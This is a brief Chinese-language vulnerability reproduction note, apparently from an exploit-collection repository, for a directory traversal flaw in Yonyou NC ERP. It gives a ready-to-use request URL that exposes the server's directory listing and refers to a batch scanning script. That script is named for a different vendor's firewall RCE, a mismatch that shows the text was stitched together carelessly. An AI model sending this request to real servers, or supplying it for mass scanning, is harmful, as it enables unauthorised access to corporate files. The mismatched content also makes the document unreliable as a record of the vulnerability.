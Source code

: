 # 0x00 软件介绍
用友NC：用友NC是面向集团的ERP类软件  
官网：https://www.yonyou.com/

# 0x01 复现环境
复现环境：内网环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
访问如下地址
```
http://x.x.x.x/NCFindWeb?service=IPreAlertConfigService&filename
```
返回如下图  
![image](./pic/0.png)  
表示存在目录遍历漏洞

# 0x05 批量脚本
网康NS-NGFW-RCE-Batch-Detect.py，具体用法见：python3 网康NS-NGFW-RCE-Batch-Detect.py -h  
效果如下  
![image](./pic/2.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw

